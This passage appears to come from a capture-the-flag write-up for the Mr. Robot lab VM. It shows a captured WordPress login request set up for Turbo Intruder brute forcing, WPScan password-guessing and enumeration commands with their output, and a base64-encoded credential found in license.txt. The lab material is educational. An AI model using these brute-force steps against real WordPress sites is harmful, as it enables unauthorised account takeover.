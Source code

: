 ```
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.159.129/wp-login.php?loggedout=true
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Cookie: s_fid=0F6464DBC5078D64-2082C0564C7815D5; s_nr=1571217063697; wp-settings-6=libraryContent%3Dbrowse; wp-settings-time-6=1571317217; s_cc=true; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Connection: close
Upgrade-Insecure-Requests: 1
log=elliot&pwd=%s&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.159.129%2Fwp-admin%2F&testcookie=1
```
As the whole machine have a "Mr.Robot flavor", my first guess was to try "Elliot" as a username.
After a tuning a turbo intruder a bit  I had a password in my hand:
```
ER28-0652
```
### WPScan
As is this machine we are working with WordPress, it's a good idea to use some tools designed exactly for it.
[WPScan](https://wpscan.org/) is a free black box WordPress vulnerability scanner already preinstalled in Kali.
Firing it up and take a coffee break, it will take a while.
```
root@kali:~# wpscan --url 192.168.159.129 --wordlist ./newfsocity.dic --username elliot
---
[+] [SUCCESS] Login : elliot Password : ER28-0652
+----+--------+------+-----------+
| Id | Login  | Name | Password  |
+----+--------+------+-----------+
|    | elliot |      | ER28-0652 |
+----+--------+------+-----------+
```
We already have admin credentials, but let's also check possible vulnerability's here:
```
root@kali:~# wpscan -u 192.168.159.129 -e vp
```
We will have a huge list of possible Cross-Site Scripting, but nothing that will help us exploit the system even more.

### Bonus
Let's have a look at the /license.txt:
```
hat you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?


do you want a password or something?


ZWxsaW90OkVSMjgtMDY1Mgo=
```
Huh, interesting. Looks like a password encoded in base64:
```
root@kali:~# echo ZWxsaW90OkVSMjgtMDY1Mgo= | base64 --decode
elliot:ER28-0652
```
Perfect! You don't need to even brute force anything if the information gathering stage was done properly.  
Using these credentials we can log in into the admin panel at */wp-login* page.
